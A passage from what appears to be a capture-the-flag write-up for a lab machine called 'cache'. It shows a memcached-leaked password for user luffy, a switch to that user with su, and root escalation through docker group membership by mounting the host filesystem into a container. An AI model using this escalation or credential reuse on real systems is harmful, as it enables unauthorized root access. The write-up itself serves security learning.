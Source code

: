 ```shell 
VALUE user 0 5 
luffy 
END 
get passwd 
get passwd 
VALUE passwd 0 9 
0n3_p1ec3 
END
```
Checking for the group memberships from */etc/group* revealed that the user *luffy* is a member of the **docker**
group, which meant elevating to root shell is as simple as executing a single command.
```shell 
ash@cache:~$ cat /etc/group 
cat /etc/group 
root:x:0: 
---SNIP---
docker:x:999:luffy 
mysql:x:115:
```
Therefore, the session was switched to **luffy** immediately with *su* and the same is shown on the section below.
```bash
ash@cache:~$ su luffy 
su luffy 
Password: 0n3_p1ec3 
 
luffy@cache:/home/ash$ id 
id 
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
```

## Privilege Escalation to *root*
As noted luffy is a member of the docker group, which meant they could mount the entire the target on a **docker 
container** and access it as *root*[^f6]. For an image to go as the docker container, the images available 
on the target were listed with `docker images`. The target is found to have the *ubuntu* image and the same is used to
elevated the privileges to root by running `docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash`. The same is shown on 
the section given below, and it can be noted that the root shell spawned was within the context of the docker container.

```bash
luffy@cache:/home/ash$ docker images 
docker images 
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE 
ubuntu              latest              2ca708c1c9cc        10 months ago       64.2MB 
luffy@cache:/home/ash$ docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash 
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash 
root@e8165ef6da47:/# id 
id 
uid=0(root) gid=0(root) groups=0(root) 
root@e8165ef6da47:/# ip a 
ip a 
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00 
    inet 127.0.0.1/8 scope host lo 
       valid_lft forever preferred_lft forever 
6: eth0@if7: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default  
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0 
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0 
       valid_lft forever preferred_lft forever 
```